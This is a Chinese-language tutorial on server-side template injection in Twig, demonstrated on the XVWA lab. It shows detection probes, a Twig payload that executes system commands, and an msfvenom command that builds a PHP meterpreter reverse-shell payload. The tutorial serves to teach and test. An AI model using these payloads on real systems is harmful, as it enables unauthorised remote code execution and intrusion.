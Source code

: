 如果服务端将用户的输入作为了模板的一部分，那么在页面渲染时也必定会将用户输入的内容进行模版编译和解析最后输出。

在Twig模板引擎里,，{{var}} 除了可以输出传递的变量以外，还能执行一些基本的表达式然后将其结果作为该模板变量的值。

例如这里用户输入name={{2*10}} ，则在服务端拼接的模版内容为:

[![](https://img2020.cnblogs.com/blog/1344396/202008/1344396-20200815171519739-387170199.png)](https://img2020.cnblogs.com/blog/1344396/202008/1344396-20200815171519739-387170199.png)

尝试插入一些正常字符和 Twig 模板引擎默认的注释符，构造 Payload 为:

bmjoker{# comment #}{{2*8}}OK

实际服务端要进行编译的模板就被构造为:

bmjoker{# comment #}{{2*8}}OK

由于 {# comment #}  作为 Twig 模板引擎的默认注释形式，所以在前端输出的时候并不会显示，而 {{2*8}} 作为模板变量最终会返回16 作为其值进行显示，因此前端最终会返回内容 Hello bmjoker16OK 

[![](https://img2020.cnblogs.com/blog/1344396/202008/1344396-20200818195732706-567305144.png)](https://img2020.cnblogs.com/blog/1344396/202008/1344396-20200818195732706-567305144.png)

通过上面两个简单的示例,就能得到 SSTI 扫描检测的大致流程(这里以 Twig 为例):

[![](https://img2020.cnblogs.com/blog/1344396/202008/1344396-20200818195801226-981945295.png)](https://img2020.cnblogs.com/blog/1344396/202008/1344396-20200818195801226-981945295.png)

同常规的 SQL 注入检测，XSS 检测一样，模板注入漏洞的检测也是向传递的参数中承载特定 Payload 并根据返回的内容来进行判断的。

每一个模板引擎都有着自己的语法，Payload 的构造需要针对各类模板引擎制定其不同的扫描规则，就如同 SQL 注入中有着不同的数据库类型一样。

简单来说，就是更改请求参数使之承载含有模板引擎语法的 Payload，通过页面渲染返回的内容检测承载的 Payload 是否有得到编译解析，有解析则可以判定含有 Payload 对应模板引擎注入，否则不存在 SSTI。

凡是使用模板的网站，基本都会存在SSTI，只是能否控制其传参而已。

接下来借助XVWA的代码来实践演示一下SSTI注入

如果在web页面的源代码中看到了诸如以下的字符，就可以推断网站使用了某些模板引擎来呈现数据

<div>{$what}</div>
<p>Welcome, {{username}}</p>
<div>{%$a%}</div>
...

通过注入了探测字符串 ${{123+456}}，以查看应用程序是否进行了相应的计算：

[![](https://img2020.cnblogs.com/blog/1344396/202008/1344396-20200818231335548-122594708.png)](https://img2020.cnblogs.com/blog/1344396/202008/1344396-20200818231335548-122594708.png)

根据这个响应，我们可以推测这里使用了模板引擎，因为这符合它们对于 {{ }} 的处理方式

在这里提供一个针对twig的攻击载荷：

{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("id")}}

[![](https://img2020.cnblogs.com/blog/1344396/202008/1344396-20200818231853350-914354726.png)](https://img2020.cnblogs.com/blog/1344396/202008/1344396-20200818231853350-914354726.png)

使用msf生成了一个php meterpreter有效载荷

msfvenom -p php/meterpreter/reverse_tcp -f raw LHOST=192.168.127.131 LPORT=4321 > /var/www/html/shell.txt
